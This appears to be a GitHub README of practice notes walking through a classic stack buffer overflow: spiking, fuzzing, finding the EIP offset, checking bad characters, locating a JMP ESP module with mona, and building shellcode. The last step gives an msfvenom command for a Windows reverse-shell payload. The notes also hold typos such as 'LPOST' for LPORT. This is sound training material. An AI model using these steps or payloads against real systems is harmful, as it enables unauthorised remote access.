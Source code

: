 # Buffer Overflow Scripts
Buffer overflow scripts to practice (walkthrough notes)

## 1- Spiking (finding the vulnerable server -crashable service-)

use the command "`generice_send_tcp HOST PORT`" in Kali Linux

Make a file named after the service with the extension of .spk for spike.

>e.g. trun.spk

run `generic_send_tcp <IP> <PORT> trun.spk 0 0` 

if it crashes, then this is our service. 

_____________________________________________________


## 2- Fuzzing (overloading the service and identify the number of bytes it takess to crash it)

here we will use the `fuzzer.py`

>Make sure you edit the IP and PORT

You will get a number of bytes _-where the program crashed-_, then you will used to generate a pattern with `msf-pattern_create` in Kali.
>the -l (Capital L) switch takes the number of bytes.
>e.g. `msf-pattern_create -l 3000`


_____________________________________________________________

## 3- Finding the Offset (EIP)
after editing the offset and firing up the `offset.py`, to identify the overwritten EIP we have to take the hex for it. then we will use it with `msf-pattern_offset -l <BYTES> -q <EIP's HEX>`.

the offset will come up, and that what we are gonna use to overwrite the EIP.
_____________________________________________________________

## 4 - Overwriting the EIP (Just to make sure that we made it right)

We will make sure here we wrote the EIP with `eip_set.py`

if the last bytes(of EIP) were Bs _-42424242-_ then we overwrote the EIP successfully.

_____________________________________________________________


## 5 - f  Finding Bad Characters

here we will try to identify which characters are bad for the shellcode (breaks the code), in order to avoid them. 


run the code `badchars.py`

then follow the ESP in dump and see if there's any badchars (Something that doesn't belong to the hex order).

_____________________________________________________________


## 6- Finding the Right Module (The vulnerable Service)

from github download mona.py and leave it at "C:\programfiles(x86)\immunityinc\immunitydebugger\pycommands"

in the little bar down the Immunity Debugger type: *!mona modules*

notice the falses in the security for the specific service.

locate nasm_shell in linux (this translate the instruction you write into assembly code), it is used to direct the malicious code to be executed. 

type in nasm_shell: JMP ESP 

then in the bar in Immunity Debugger type: 
`!mona find -s "\xff\xe4" -m <vuln service>`

>-m switch is the vulnerable module we identified earlier with !mona modules

then run `module_finder.py`
_____________________________________________________________


## 7- Generating Shellcoding and Gaining Root

generate a payload with msfvenom in Kali
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.5.108 LPOST=9999 EXITFUNC=thread -f c -a x86 -b "\x00"`
>-f switch for format,
>-a switch for architechture,
>-b switch for bad characters.

copy the payload to `shellcode.py` and fire it up. 

Enjoy your shell!
